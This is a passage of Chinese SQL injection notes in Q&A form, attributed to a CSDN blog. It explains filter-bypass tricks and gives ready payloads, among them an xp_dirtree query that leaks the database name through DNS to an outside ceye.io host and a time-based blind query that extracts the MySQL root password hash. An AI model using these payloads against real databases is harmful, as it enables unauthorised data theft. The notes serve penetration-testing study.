 ```
DECLARE @host varchar(1024);SELECT @host=(SELECT db_name())+'.xxx.ceye.io';EXEC('master..xp_dirtree"'+@host+'\foobar$"');
```

#### 7.SQL注入时 and or 被过滤怎办？

1.大小写变形
2.编码 
3.添加注释 
4.双写法 
5.利用符号形式 
6.浮点数 #数字被注释 
7.函数替代 #符号被注释

#### 8.SQL注入过滤逗号如何处理

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决:

```csharp
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join：

```csharp
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

使用like：

```csharp
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于limit可以使用offset来绕过：

```csharp
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```



```csharp
select * from table1 where id =1 and exists (select * from table2 where ord(substring(username from 1 for 1)=97);

127' UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e)#

select case when substring((select password from mysql.user where user='root') from 1 for 1)='e' then sleep(5) else 0 end #

substring((select password from mysql.user where user='root') from -1）='e'

原文：https://blog.csdn.net/nzjdsds/article/details/81322529 
```
